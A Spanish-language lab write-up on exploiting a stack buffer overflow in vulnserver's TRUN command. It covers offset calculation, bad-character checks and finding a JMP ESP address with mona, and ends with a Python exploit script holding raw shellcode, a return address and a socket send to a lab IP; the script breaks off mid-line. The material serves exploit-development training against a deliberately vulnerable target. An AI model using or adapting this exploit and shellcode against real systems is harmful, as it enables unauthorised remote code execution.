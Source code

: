 # Buffer-Overflow TRUN function

[https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)

vulnserver tiene 4 funciones en las que declara un buffer, cada buffer es distinto en cada función:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%201.png)

vulnserver tiene una funcionalidad que se llama TRUN la cual utiliza la funcion3 vista anteriormente, en esta condición podemos ver que se declara un buffer de 3000 en la que hay otra condición que para que se cumpla tiene que haber un ‘.’ en el input del usuario.

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%202.png)

Si reflejamos esto en la practica, le pasamos a vulnserver esta cadena:

![Untitled](/assets/images/Buffer-Overflow-trun/Untitled%203.png)

Miramos en el Inmunity Debugger y hemos conseguido crashear vulnserver y sobrescribir el EIP

![Untitled](Buffer-Ove%20dc636/Untitled.png)

Calculamos el offset con la herramienta de metasploit `patter_create`

![Untitled](Buffer-Ove%20dc636/Untitled%201.png)

![Untitled](Buffer-Ove%20dc636/Untitled%202.png)

Miramos en el inmunity debugger el valor del EIP

![Untitled](Buffer-Ove%20dc636/Untitled%203.png)

Utilizamos la herramienta `pattern_offset` para ver el numero de caracteres en el cual empezamos a sobrescribir el EIP

![Untitled](Buffer-Ove%20dc636/Untitled%204.png)

hemos sacado el offset de vulnserver y sabemos que tenemos que pasarle 2006 A para sobrescribir el EIP.

![Untitled](Buffer-Ove%20dc636/Untitled%205.png)

Probamos a sobrescribir el EIP con 4 “B”.

![Untitled](Buffer-Ove%20dc636/Untitled%206.png)

Ahora comprobamos si hay algún bad_chars, de la siguiente forma:

Enviamos los bad_chars después de sobrescribir el EIP:

![Untitled](Buffer-Ove%20dc636/Untitled%207.png)

Vamos al inmunity debugger y vemos si en el ESP hay algún bad_char

![Untitled](Buffer-Ove%20dc636/Untitled%208.png)

Como podemos ver en el ESP no hay ningún bad character, el único que da siempre fallos es el carácter nulo \x00\, nuestro payload no puede tener este carácter.

Ahora tenemos que buscar un modulo vulnerable, con el inmunity debugger podemos encontrarla gracias al modulo mona, ejecutando el comando `!mona modules`

![Untitled](Buffer-Ove%20dc636/Untitled%209.png)

Vemos que tiene un modulo que no tiene ninguna protección añadida:

![Untitled](Buffer-Ove%20dc636/Untitled%2010.png)

Ahora podemos meter código ensamblador en este modulo, para ello lo haremos de la siguiente forma:

Queremos hacer un jump al ESP, con la herramienta `nasm_shell` podemos sacar el valor que tiene que tener para que realice un jmp esp

![Untitled](Buffer-Ove%20dc636/Untitled%2011.png)

Con mona buscamos las instrucciones que queremos con el siguiente comando:

![Untitled](Buffer-Ove%20dc636/Untitled%2012.png)

Tenemos varios resultados, podemos probar con cualquiera de ellos, ahora en vez de escribir las 4 B, tenemos que escribir la dirección de esos resultados.

ponemos en pausa la dirección que hemos utilizado para poder comprobarlo.

![Untitled](Buffer-Ove%20dc636/Untitled%2013.png)

![Untitled](Buffer-Ove%20dc636/Untitled%2014.png)

EIP tiene el valor que queremos, ahora solo tenemos que crear nuestro exploit.

ahora puedo empezar a añadir mi código malicioso, de la siguiente manera.

![Untitled](Buffer-Ove%20dc636/Untitled%2015.png)

Creamos nuestro script y añadimos el shellcode:

```python
#!/usr/bin/python3

from pwn import *
from struct import pack

#CTRL+C
def def_handler(sig,frame):
	print("\n[!]Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

if __name__ == '__main__':
	p1 = log.progress("Buffer-Overflow Vulnserver")

	shellcode =  b""
	shellcode += b"\xb8\x31\xa1\x07\xc8\xda\xc8\xd9\x74\x24\xf4"
	shellcode += b"\x5a\x33\xc9\xb1\x52\x83\xea\xfc\x31\x42\x0e"
	shellcode += b"\x03\x73\xaf\xe5\x3d\x8f\x47\x6b\xbd\x6f\x98"
	shellcode += b"\x0c\x37\x8a\xa9\x0c\x23\xdf\x9a\xbc\x27\x8d"
	shellcode += b"\x16\x36\x65\x25\xac\x3a\xa2\x4a\x05\xf0\x94"
	shellcode += b"\x65\x96\xa9\xe5\xe4\x14\xb0\x39\xc6\x25\x7b"
	shellcode += b"\x4c\x07\x61\x66\xbd\x55\x3a\xec\x10\x49\x4f"
	shellcode += b"\xb8\xa8\xe2\x03\x2c\xa9\x17\xd3\x4f\x98\x86"
	shellcode += b"\x6f\x16\x3a\x29\xa3\x22\x73\x31\xa0\x0f\xcd"
	shellcode += b"\xca\x12\xfb\xcc\x1a\x6b\x04\x62\x63\x43\xf7"
	shellcode += b"\x7a\xa4\x64\xe8\x08\xdc\x96\x95\x0a\x1b\xe4"
	shellcode += b"\x41\x9e\xbf\x4e\x01\x38\x1b\x6e\xc6\xdf\xe8"
	shellcode += b"\x7c\xa3\x94\xb6\x60\x32\x78\xcd\x9d\xbf\x7f"
	shellcode += b"\x01\x14\xfb\x5b\x85\x7c\x5f\xc5\x9c\xd8\x0e"
	shellcode += b"\xfa\xfe\x82\xef\x5e\x75\x2e\xfb\xd2\xd4\x27"
	shellcode += b"\xc8\xde\xe6\xb7\x46\x68\x95\x85\xc9\xc2\x31"
	shellcode += b"\xa6\x82\xcc\xc6\xc9\xb8\xa9\x58\x34\x43\xca"
	shellcode += b"\x71\xf3\x17\x9a\xe9\xd2\x17\x71\xe9\xdb\xcd"
	shellcode += b"\xd6\xb9\x73\xbe\x96\x69\x34\x6e\x7f\x63\xbb"
	shellcode += b"\x51\x9f\x8c\x11\xfa\x0a\x77\xf2\xc5\x63\x9d"
	shellcode += b"\x80\xae\x71\x61\x84\x95\xff\x87\xec\xf9\xa9"
	shellcode += b"\x10\x99\x60\xf0\xea\x38\x6c\x2e\x97\x7b\xe6"
	shellcode += b"\xdd\x68\x35\x0f\xab\x7a\xa2\xff\xe6\x20\x65"
	shellcode += b"\xff\xdc\x4c\xe9\x92\xba\x8c\x64\x8f\x14\xdb"
	shellcode += b"\x21\x61\x6d\x89\xdf\xd8\xc7\xaf\x1d\xbc\x20"
	shellcode += b"\x6b\xfa\x7d\xae\x72\x8f\x3a\x94\x64\x49\xc2"
	shellcode += b"\x90\xd0\x05\x95\x4e\x8e\xe3\x4f\x21\x78\xba"
	shellcode += b"\x3c\xeb\xec\x3b\x0f\x2c\x6a\x44\x5a\xda\x92"
	shellcode += b"\xf5\x33\x9b\xad\x3a\xd4\x2b\xd6\x26\x44\xd3"
	shellcode += b"\x0d\xe3\x64\x36\x87\x1e\x0d\xef\x42\xa3\x50"
	shellcode += b"\x10\xb9\xe0\x6c\x93\x4b\x99\x8a\x8b\x3e\x9c"
	shellcode += b"\xd7\x0b\xd3\xec\x48\xfe\xd3\x43\x68\x2b"
	
	buffer = b"A"*2006 
	buffer += pack("<I", 0x625011bb) # JMP ESP
	buffer += b"\x90"*24
	buffer += shellcode
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect = s.connect(('192.168.234.133', 9999))
	s.send(b'TRUN .' + buffer)
	p1.status("Payload sen
```

Lo ejecutamos y vemos si ganamos acceso:

![Untitled](Buffer-Ove%20dc636/Untitled%2016.png)